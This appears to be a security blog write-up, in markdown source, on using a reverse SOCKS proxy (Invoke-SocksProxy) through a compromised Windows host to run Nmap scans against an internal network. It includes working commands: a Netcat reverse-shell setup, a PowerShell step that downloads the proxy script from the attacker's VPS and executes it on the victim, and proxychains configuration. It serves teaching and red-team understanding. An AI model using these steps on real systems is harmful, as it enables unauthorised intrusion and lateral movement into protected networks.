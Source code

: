 ```yaml
---
layout: post
title: "Use Reverse Proxies to Nmap Internal Networks"
categories: [publication,write-up]
modified: 2021-03-18
---
```


Reverse proxies allow adversaries (APTs) to pivot attacks into secured environments, as they’re capable of bypassing inbound firewall restrictions. In recent news, a federal agency’s enterprise network was the victim of such an attack. The adversaries used a variant of [Invoke-SocksProxy](https://github.com/tokyoneon/Invoke-SocksProxy), an open-source reverse proxy tool found on GitHub.

The network topology in this example contains several devices connected to an internal network (172.16.0.1/24). For simplicity, assume the adversary established a reverse shell on Host A (172.16.0.3) with a nefarious Word document (shown below). With this level of compromise, the attacker’s Kali system cannot directly interact with the SMB and HTTP servers. The goal is to discover services on 172.16.0.1/24 while using Host A as a proxy.

![](img/0x12/0x12-01.png)

In this example, the compromised host is connecting to the attacker’s virtual private server (VPS) with a Netcat listener on TCP/4444 (shown below). The Netcat connection should remain open as it is required in a later step.

![](img/0x12/0x12-02.png)

In Kali, open a new terminal and SSH into the VPS. Elevate to a root shell with the `su` command. Use the following `git` command to clone my [Invoke-SocksProxy](https://github.com/tokyoneon/Invoke-SocksProxy/) repository. The repository contains two files: [ReverseSocksProxyHandler.py](https://github.com/tokyoneon/Invoke-SocksProxy/blob/master/ReverseSocksProxyHandler.py) and [Invoke-SocksProxy.ps1](https://github.com/tokyoneon/Invoke-SocksProxy/blob/master/Invoke-SocksProxy.ps1).

```
root@vps > cd /opt; git clone https://github.com/tokyoneon/Invoke-SocksProxy
```

The `ReverseSocksProxyHandler.py` script will open ports 443 and 1337: Port 443 will receive incoming connections from Host A. Port 1337 will act as the proxy port, configured with `proxychains4` in Kali. When executed, the terminal will produce the following output and should remain open for the duration of the attack.

```
root@vps > cd /opt/Invoke-SocksProxy; ./ReverseSocksProxyHandler.py
```

![](img/0x12/0x12-04.png)

The `Invoke-SocksProxy.ps1` script is meant to be executed on the compromised host. In Kali, open a new terminal and SSH into the VPS again. Change the [hardcoded VPS address](https://github.com/tokyoneon/Invoke-SocksProxy/blob/master/Invoke-SocksProxy.ps1#L1) in `Invoke-SocksProxy.ps1` and host it on an HTTP server (i.e., Apache, Nginx, or http.server).

In the Netcat terminal, change into the `$env:TEMP` directory on Host A. Then download `Invoke-SocksProxy.ps1` from the VPS and execute it. It won’t produce output and must remain open. An attacker may use scheduled tasks to automate the execution in a real scenario. We’ll keep the terminal open for this demonstration to understand what’s happening.

```powershell
Ps > cd $env:TEMP
Ps > iwr 192.168.56.102/Invoke-SocksProxy.ps1 -outfile isp.ps1
Ps > .\isp.ps1
```

![](img/0x12/0x12-05.png)

In Kali, install `proxychains4` and modify the `/etc/proxychains4.conf` file. Add the VPS address and 1337 port to the bottom of the configuration file.

```
sudo apt-get install -y proxychains4 && sudo nano /etc/proxychains4.conf
```

![](img/0x12/0x12-06.png)

That’s all for setting up the attack. With `ReverseSocksProxyHandler` and `Invoke-SocksProxy` running on the VPS and Host A, it’s possible to proxy attacks into the internal network.

There are limitations while using Nmap with Proxychains. For example, Nmap fails at host discovery, unable to perform ping (ICMP) scans over SOCKS5. With that said, service and port discovery are still effective (while a bit slow, as they require full TCP scans).

The following Nmap scan will perform a TCP scan (`-sT`) with host discovery (`-Pn`) and DNS resolution (`-n`) disable. The arguments are required to use Nmap with Proxychains. Note the SMB server on 172.16.0.4:445 and the HTTP server on 172.16.0.115:80.

```
proxychains nmap -sT -Pn -n -p445,139,88,80 172.16.0.4,115
```

![](img/0x12/0x12-07.png)

For context and examples with `crackmapexec`, `patator`, `smbclient`, and `firefox`, review the [official publication](https://www.varonis.com/blog/nmap-reverse-proxies/).

---

{{site.varonis_credit}}
